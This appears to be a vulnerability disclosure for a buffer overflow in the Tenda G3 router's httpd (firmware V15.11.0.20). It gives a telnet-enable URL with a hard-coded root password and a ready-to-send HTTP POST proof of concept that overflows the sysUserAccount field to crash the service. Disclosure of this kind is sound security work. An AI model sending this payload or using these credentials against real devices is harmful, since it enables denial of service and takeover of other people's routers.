


# Tenda G3 Buffer overflow vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There is a Buffer overflow vulnerability in tenda G3 V15.11.0.20, which can cause httpd to crash, or even execute arbitary code.

## Affected version


Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/Fireitup

using ida to analysis httpd, in function formSetSysUser:



The program passes the contents obtained by the sysUserAccount parameter to new_username.
Then, new_username is set to sys.baseusername stored in the system by function SetValue.  



In function formGetSysUser, sys.baseusername is passed to guest_username by function GetValue, guest_username is an array of finite length.
There is no size check, so there is a vulnerability that can cause buffer overflow through sysUserAccount parameter.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.
The functional data packets are as follows, and we will use this to construct poc.  

```http
POST /goform/setSysUser HTTP/1.1
Host: 192.168.0.252
Content-Length: 689
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.252
Referer: http://192.168.0.252/sysManage/namePwd.html?0.23399871685804174
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close

sysUserAccountType=privileged&sysUserOldPwd=YWRtaW4%3D&sysUserPwd=YWRtaW4%3D&sysUserAccount=adminAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The poc and reproduction results are as follows:


Figure shows POC attack effect, the pid of httpd changes.

## CVE-ID

unsigned
